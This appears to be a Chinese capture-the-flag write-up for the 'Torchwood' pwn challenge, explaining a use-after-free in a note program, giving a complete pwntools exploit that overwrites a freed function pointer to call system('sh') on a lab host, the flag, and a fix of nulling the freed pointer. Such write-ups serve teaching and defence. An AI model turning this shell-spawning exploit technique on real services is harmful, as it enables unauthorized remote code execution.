 # Torchwood
## 思路
UAF,chunk释放后未清0。删除note[0]后使用添加str类型的note，可以修改note[0]的函数指针和参数为system和sh，再次删除note[0]即可完成对system('sh')的调用，获得shell
## exp
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# 
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c']

# io = process('./torchwood')
io = remote('172.1.3.9', 8888)
elf = ELF('./torchwood')
libc = ELF('./libc-2.23.so') 
def new(index, notetype, value, lenth = 0):
    io.sendlineafter('ote > ', '1')
    io.sendlineafter('dex > ', str(index))
    io.sendlineafter('ype > ', str(notetype))
    if(notetype == 1): # int
        io.sendlineafter('lue > ', str(value))

    else:
        io.sendlineafter('gth > ', str(lenth))
        io.sendlineafter('lue > ', value)


def delete(index):
    io.sendlineafter('ote > ', '2')
    io.sendlineafter('dex > ', str(index))

def show(index):
    io.sendlineafter('ote > ', '3')
    io.sendlineafter('dex > ', str(index))

if __name__ == '__main__':
    raw_input('debug > ')
    new(0, 1, 1111)
    new(1, 1, 2222)
    new(2, 1, 3333)
    delete(0)
    delete(1)
    #
    content = 'sh\x00\x00' + p32(elf.plt['system'])

    new(3, 2, content, 12)
    raw_input('ready to delete 0')
    delete(0)
    io.interactive()

```
## flag
flag{1b1d1c0d69}

## fix

在do_del函数中将释放的指针清除即可防止。
